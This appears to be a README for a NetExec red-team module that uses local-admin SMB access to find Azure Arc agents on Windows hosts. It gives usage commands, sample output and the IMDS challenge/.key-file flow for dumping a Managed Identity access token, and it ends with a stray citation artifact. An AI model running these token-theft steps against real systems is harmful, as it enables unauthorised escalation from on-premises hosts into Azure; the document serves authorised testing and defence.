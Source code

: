 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Dump token (default behavior if Arc is present)
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc
Module Options (-o KEY=VALUE)
Option	Type	Default	Description
CHECK	bool	false	Only verify whether the Arc agent is installed.
RESOURCE	string	https://management.azure.com	AAD resource audience for the token.
API_VERSION	string	2021-02-01	Arc IMDS API version.
VERBOSE	bool	false	Write diagnostic details (status, key path, body excerpts) to OUTFILE.
OUTFILE	string	C:\Windows\Temp\azurearc_out.txt	Target-side capture path for JSON/diagnostics (deleted after read-back).

🖥️ Output Examples
Presence check (installed)

nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
[+] Azure Arc agent appears to be installed
Presence check (not installed)

nxc smb 192.168.1.101 -u USER -p 'PASS' -M azurearc -o CHECK=true
[-] Azure Arc agent not found
Token dump (success)

nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}


🔍 How It Works (Behavior)
Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read the .key contents (requires local admin).
2.Second GET with Authorization: Basic <key> to obtain token JSON.
Write JSON to OUTFILE, fetch via SMB, and delete the file.

📸 Screenshots
Presence check + token retrieval (redacted)
<img width="1201" height="450" alt="Azure Arc presence check and token retrieval" src="https://github.com/user-attachments/assets/8b824c35-7595-43f1-90f1-627bb9962712" />

Verbose diagnostics enabled
<img width="1189" height="391" alt="Verbose diagnostics and returned token JSON (redacted)" src="https://github.com/user-attachments/assets/b25305f9-1946-4e6c-8c9f-028e0bded0ff" />

🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.



🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

Microsoft Docs — Managed identity on Arc-enabled servers
https://learn.microsoft.com/azure/azure-arc/servers/managed-identity-authentication

::contentReference[oaicite:0]{index=0}
